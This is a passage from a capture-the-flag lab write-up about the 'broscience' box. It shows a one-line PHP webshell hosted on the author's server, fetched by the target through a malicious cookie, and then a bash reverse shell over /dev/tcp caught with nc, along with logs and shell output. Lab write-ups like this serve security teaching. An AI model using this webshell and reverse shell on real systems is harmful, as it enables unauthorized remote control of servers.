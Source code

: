 

#### Exploit

I'll make a simple webshell called `cmd.php` and host it on my webserver
with Python:



    oxdf@hacky$ cat cmd.php 
    <?php system($_REQUEST['cmd']); ?>
    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



I'll go into Firefox dev tools and replace my cookie with the malicious
one, and refresh `https://broscience.htb`. There's a connection at the
webserver (actually three):



    10.10.11.195 - - [30/Mar/2023 20:38:50] "GET /cmd.php HTTP/1.0" 200 -
    10.10.11.195 - - [30/Mar/2023 20:38:50] "GET /cmd.php HTTP/1.0" 200 -
    10.10.11.195 - - [30/Mar/2023 20:38:50] "GET /cmd.php HTTP/1.0" 200 -



And `/cmd.php` exists on the webserver, and it works:

![](/img/image-20230330204056872.png)

#### Shell

I'll type out a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) into Firefox, URL
encoding the `&` to `%26`:



    https://broscience.htb/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'



On hitting enter, there's a shell at my listening `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.195 44096
    bash: cannot set terminal process group (1235): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@broscience:/var/www.md$



I'll [upgrade the shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q):
